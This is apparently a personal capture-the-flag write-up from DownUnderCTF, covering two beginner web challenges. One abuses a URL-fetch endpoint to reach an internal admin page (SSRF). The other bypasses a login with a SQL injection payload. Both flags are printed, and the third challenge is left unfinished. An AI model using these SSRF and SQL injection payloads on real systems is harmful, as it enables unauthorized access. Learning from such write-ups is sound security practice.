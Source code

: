 Another week ended, another CTF event ended, I realize I'm not making any process. Maybe, I need to review the way I learned.

Anyway, hope that I can do somthing.

# DownUnderCTF
Here are some easy challenges I did in this CTF
## Web challenge
### Inside Out
Open challenge and view source you can see route to Admin panel: "/admin"

Try to access to /admin, you will receive ```Only accessible from the local network```

Access /request?url=http://example.com/ you will see a local IP: 10.96.0.167

Finally: payload: https://web-inside-out-b3d9f3b9.chal-2021.duc.tf/request?url=http://10.96.0.167/admin

Flag: DUCTF{very_spooky_request}

### Cowboy World:
Type: SQL Injection 

Firstly, I try some sqli payload but it didn't work.

It's a challenge for beginner, so I don't think it has something too difficult. 

I try to access robots.txt you will receive some hint, you must do sql injection with username is ```sadcowboy```

Payload: username=sadcowboy&password='+or+1--

Flag: DUCTF{haww_yeeee_downunderctf?}

### Chainreaction:

---To be continued---


